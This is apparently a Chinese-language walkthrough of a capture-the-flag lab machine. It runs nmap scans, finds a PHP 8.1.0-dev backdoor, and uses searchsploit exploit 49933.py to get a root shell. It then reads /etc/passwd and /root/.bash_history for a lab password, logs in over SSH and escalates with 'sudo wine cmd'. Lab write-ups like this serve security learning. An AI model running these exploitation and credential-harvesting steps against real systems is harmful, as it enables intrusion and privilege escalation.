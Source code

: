 ## 靶机地址

[Proton Drive](https://drive.proton.me/urls/027V63ZCQR#iT7At4N7gM0b)

![image-20250324082204139](./assets/image-20250324082204139.png)





## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```

![image-20250324082244331](./assets/image-20250324082244331.png)



#### 主机探测

```
nmap -sn 192.168.23.0/24
```

![image-20250324082313878](./assets/image-20250324082313878.png)

确定靶机ip：

192.168.23.142



#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.142 -oA ./nmapscan/ports
```

![image-20250324082352991](./assets/image-20250324082352991.png)



#### 提取端口信息

```
ports
```

![image-20250324082716042](./assets/image-20250324082716042.png)

![image-20250324082730649](./assets/image-20250324082730649.png)



#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,8080 192.168.23.142 -oA ./nmapscan/detail
```

![image-20250324082837235](./assets/image-20250324082837235.png)

分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- 8080 http PHP 8.1.0-dev
- PHP 8.1.0-dev存在"User-Agentt"远程执行漏洞



### 搜索相关漏洞

```
searchsploit php 8.1.0-dev
searchsploit -m php/webapps/49933.py
```

![image-20250324083349041](./assets/image-20250324083349041.png)

![image-20250324083421287](./assets/image-20250324083421287.png)



### 执行

```
python3 49933.py
http://192.168.23.142:8080/
whoami
```

![image-20250324083732509](./assets/image-20250324083732509.png)

已经是root权限的shell



### 查看用户信息

```
cat /etc/passwd
```

![image-20250324083844906](./assets/image-20250324083844906.png)

无可用用户，推测是在docker容器中



### 寻找可用信息

```
ls -al /root/
cat /root/.bash_history
```

![image-20250324084008358](./assets/image-20250324084008358.png)

![image-20250324084016997](./assets/image-20250324084016997.png)

得到一个用户名和密码

```
liam：L14mD0ck3Rp0w4
```



### ssh登录

```
ssh liam@192.168.23.142
```

![image-20250324084052971](./assets/image-20250324084052971.png)

登录成功



## 提权

### 得到第一个flag

```
ls
cat user.txt
```

![image-20250324084130162](./assets/image-20250324084130162.png)



### 执行sudo -l

```
sudo -l
```

![image-20250324084151395](./assets/image-20250324084151395.png)

无密码执行wine

wine允许在linux上运行一些windows应用

- 这里我本来想的是msfvenom生成windows远控木马，然后实现提权，但是后来发现不用，直接执行cmd就可以得到root权限的shell



### wine提权

```
sudo wine cmd
```

![image-20250324084904964](./assets/image-20250324084904964.png)

![image-20250324084918653](./assets/image-20250324084918653.png)



### 得到第二

### 个flag

```
dir
type user.txt
```

![image-20250324084937457](./assets/image-20250324084937457.png)